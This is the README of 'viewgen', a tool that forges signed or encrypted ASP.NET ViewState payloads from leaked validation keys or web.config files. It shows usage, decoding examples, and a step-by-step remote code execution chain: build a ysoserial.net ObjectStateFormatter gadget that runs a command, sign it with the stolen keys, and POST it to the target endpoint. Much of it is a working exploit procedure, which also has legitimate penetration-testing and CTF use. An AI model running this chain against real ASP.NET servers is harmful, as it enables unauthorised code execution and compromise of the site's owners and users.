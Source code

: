 # viewgen

### ASP.NET ViewState Generator

**viewgen** is a ViewState tool capable of generating both signed and encrypted payloads with leaked validation keys or `web.config` files

---------------

**Requirements**: Python 3

### Installation

`pip3 install --upgrade -r requirements.txt` or `./install.sh`


---------------

### Usage
```bash
$ viewstate -h
usage: viewgen [-h] [-c WEBCONFIG] [-m MODIFIER] [--decode] [--guess]
               [--check] [--vkey VKEY] [--valg VALG] [--dkey DKEY]
               [--dalg DALG] [-e]
               payload

viewgen is a ViewState tool capable of generating both signed and encrypted
payloads with leaked validation keys or web.config files

positional arguments:
  payload               viewState payload (base 64 encoded)

optional arguments:
  -h, --help            show this help message and exit
  -c WEBCONFIG, --webconfig WEBCONFIG
                        automatically load keys and algorithms from a
                        web.config file
  -m MODIFIER, --modifier MODIFIER
                        VIEWSTATEGENERATOR value
  --decode              decode a ViewState payload
  --guess               guess signature and encryption mode for a given
                        payload
  --check               check if modifier and keys are correct for a given
                        payload
  --vkey VKEY           validation key
  --valg VALG           validation algorithm
  --dkey DKEY           decryption key
  --dalg DALG           decryption algorithm
  -e, --encrypted       ViewState is encrypted
```

---------------

### Examples

```bash
$ viewgen --decode --check --webconfig web.config --modifier CA0B0334 "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="
[+] ViewState
(('1628925133', (None, [3, (['enctype', 'multipart/form-data'], None)])), None)
[+] Signature
7441f6eeb4fab5a5f30d6ba99908c08eb683b9e6
[+] Signature match

$ viewgen --webconfig web.config --modifier CA0B0334 "/wEPDwUKMTYyODkyNTEzMw9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRk"
r4zCP5CdSo5R9XmiEXvp1LHVzX1uICmY7oW2WD/gKS/Mt/s+NKXrMpScr4Gvrji7lFdHPOttFpi2x7YbmQjEjJ2NdBMuzeKFzIuno2DenYF8yVVKx5+LL7LYmI0CVcNQ+jH8VxvzVG58NQIJ/rSr6NqNMBahrVfAyVPgdL4Eke3Bq4XWk6BYW2Bht6ykSHF9szT8tG6KUKwf+T94hFUFNIXXkURptwQJEC/5AMkFXMU0VXDa

$ viewgen --guess "/wEPDwUKMTYyODkyNTEzMw9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkuVmqYhhtcnJl6Nfet5ERqNHMADI="
[+] ViewState is not encrypted
[+] Signature algorithm: SHA1

$ viewgen --guess "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="
[!] ViewState is encrypted
[+] Algorithm candidates:
AES SHA1
DES/3DES SHA1
```

---------------

### Achieving Remote Code Execution

Leaking the `web.config` file or validation keys from ASP.NET apps results in RCE via ObjectStateFormatter deserialization if ViewStates are used.

**1 -** Generate a payload with [ysoserial.net](https://github.com/pwntester/ysoserial.net):

```bash
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "ping x.x.x.x"
```

**2 -** Grab a modifier (`__VIEWSTATEGENERATOR` value) from a given endpoint of the webapp

**3 -** Generate the signed/encrypted payload:

```bash
viewgen --webconfig web.config --modifier MODIFIER PAYLOAD
```

**4 -** Send a POST request with the generated ViewState to the same endpoint

**5 -** Profit 🎉🎉

---------------

**Thanks**

- [@infosec_au](https://twitter.com/infosec_au)
- [@orange_8361](https://twitter.com/orange_8361)
- [@smiegles](https://twitter.com/smiegles)

**CTF Writeups**

- https://xz.aliyun.com/t/3019
- https://cyku.tw/ctf-hitcon-2018-why-so-serials/
